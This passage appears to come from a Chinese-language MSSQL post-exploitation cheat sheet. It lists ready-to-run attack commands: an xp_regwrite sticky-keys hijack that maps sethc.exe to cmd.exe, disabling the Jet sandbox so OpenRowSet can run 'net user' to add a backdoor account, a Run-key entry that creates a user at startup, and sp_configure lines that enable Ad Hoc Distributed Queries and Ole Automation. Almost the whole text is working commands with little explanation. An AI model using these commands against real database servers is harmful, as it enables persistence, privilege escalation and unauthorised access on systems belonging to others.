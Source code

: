 4. 映像劫持

    `xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\cmd.exe'`

5. 沙盒模式提权:

    a : `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet.0\Engines','SandBoxMode','REG_DWORD',0;` # 关闭沙盒模式

    b : `Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user mstlab mstlab /add")');` #or c:\windows\system32\ias\dnary.mdb string 类型用此.
    开启 OpenRowSet:`exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;`

6. xp_regwrite 操作注册表

    `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\currentversion un','black','REG_SZ','net user test test /add'`

    开启 xp_oacreate : exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;
